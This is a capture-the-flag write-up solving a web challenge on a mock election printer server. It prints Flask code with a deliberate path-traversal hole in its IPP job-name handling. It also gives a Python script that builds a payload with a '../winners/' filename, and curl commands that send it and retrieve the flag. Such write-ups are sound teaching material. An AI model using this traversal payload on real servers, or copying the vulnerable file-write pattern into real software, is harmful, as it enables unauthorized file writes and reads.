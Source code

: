 ```yaml
---
layout: writeup
title: Who checks the integrity of the integrity checks?
tags: WebX
excerpt: "The government has ordered verification of the votes via the printed receipts. The results were... a mismatch in votes! While there were probably multiple ways that this came as a result, is it possible for someone to tamper with the receipts?"
---
```


## Description

The government has ordered verification of the votes via the printed receipts. The results were... a mismatch in votes! While there were probably multiple ways that this came as a result, is it possible for someone to tamper with the receipts?


As the backend code for all of week 4 was the same, we also had the backend code of the printer


## Solution

Here is the backend code of the printers:

```python
from flask import Flask, request, send_file, abort, Response
import os
import struct

app = Flask(__name__)

FLAG_PATH = "/flag.txt"
PRINTJOB_FOLDER = "/tmp/printjobs"
CHAL_TARGET_FOLDER = "/tmp/winners"

@app.route('/printers/votes', methods=['POST'])
def handle_print_job():
    data = request.data
    idx = 8
    if data[idx] != 0x01:
        return "Missing operation attributes tag", 400
    idx += 1

    filename = None
    try:
        while data[idx] != 0x03:
            tag = data[idx]
            name_len = struct.unpack(">H", data[idx+1:idx+3])[0]
            name = data[idx+3:idx+3+name_len].decode()
            val_len_offset = idx+3+name_len
            val_len = struct.unpack(">H", data[val_len_offset:val_len_offset+2])[0]
            val = data[val_len_offset+2:val_len_offset+2+val_len].decode()
            if name == "job-name":
                filename = val
            idx = val_len_offset + 2 + val_len
    except Exception:
        return "Malformed IPP attributes", 400

    idx += 1  # skip end tag
    pdf_data = data[idx:]

    if not filename:
        return "job-name attribute is required", 400

    with open(f"{PRINTJOB_FOLDER}/{filename}", "wb") as f:
        f.write(pdf_data)

    actual_path = os.path.realpath(os.path.join(PRINTJOB_FOLDER, filename))

    if actual_path.startswith(CHAL_TARGET_FOLDER):
        with open(FLAG_PATH, "r") as f:
            flag = f.read()

        with open(actual_path, "w") as f:
            f.write(flag)

    return Response("Print job saved", status=200, content_type="application/ipp")

@app.route("/files/<path:filename>")
def get_flag(filename):
    safe_path = os.path.realpath(os.path.join(CHAL_TARGET_FOLDER, filename))

    if not safe_path.startswith(os.path.realpath(CHAL_TARGET_FOLDER)):
        abort(403, description="Access denied")

    if not os.path.isfile(safe_path):
        abort(404, description="File not found")

    return send_file(safe_path)

@app.after_request
def add_printer_headers(response):
    response.headers["Server"] = "CUPS/2.3 IPP/2.0"
    return response

if __name__ == "__main__":
    os.makedirs(CHAL_TARGET_FOLDER, exist_ok=True)
    os.makedirs(PRINTJOB_FOLDER, exist_ok=True)
    app.run(host="0.0.0.0", port=631)
```

Now as this program ran on a different domain then all the other challenges, the first step was to figure out what domain the server was being run on. Now as I knew that the server for the mobile app was hosted at `http://mobile-app.commission.freedonia.vote` I figures, that it would probably be a very simmilar subdomain to this, so I tried `http://printer.commission.freedonia.vote` and what would you know it:

```bash
$ dig +short printer.commission.freedonia.vote
re.da.ct.ed
```

That has a IPv4 result in the DNS records. So, now knowing that the server was hosted at `http://printer.commission.freedonia.vote` its time to exploit.

Reading the code over we seem to need to input a value into `handle_print_job` that does directory traversal from `/tmp/printjobs/` into `/tmp/winners/` and then with `get_flag` we seem to be able to read any file within `/tmp/winners/` but can't do path traversal out of there.

The only hard part about this challenge is the complex `.ipp` file stuff that we appear to need to deal with. So after figuring out how `.ipp` files work, I came up with this python file which generates the `.ipp` file for me.

```python
import struct

fake_pdf = b"%PDF-1.7\n%...\n"

payload = b""

# They don't care about the first 8 bytes
payload += b"\x01" * 8 

# Operation Attributes Tag that needs to be \0x01 for some reason
payload += b"\x01"

# vars
header_name = b"job-name"
value = b"../winners/flaginsECUre123456.txt"

payload += b"\x00" # tag, not used
payload += struct.pack('>H', len(header_name)) # name_len
payload += header_name # name
payload += struct.pack('>H', len(value)) # val_len
payload += value # val

payload += b"\x03" # Ending character

payload += fake_pdf

with open("ipp_request.bin", "wb") as f:
	f.write(payload)
```

running this then writes a new `ipp_request.bin` file that contains the payload to submit. I called the file flaginsECUre123456.txt becuas ewe were told in the discord server not to call it guessable names so other teams can't just read our file but need to actually do the whole thing themselves, also becuase my team name was insECUre. I then submitted the payload

```bash
$ curl -X POST "http://printer.commission.freedonia.vote/printers/votes" --data-binary @ipp_request.bin -H "Content-Type: application/ipp"
Print job saved
```

 then read the file with /files

```bash
$ curl "http://printer.commission.freedonia.vote/files/flaginsECUre123456.txt"
cysea{cant_trust_anything_these_days_31fe6ba0a0}
```

 And there is our flag `cysea{cant_trust_anything_these_days_31fe6ba0a0}`
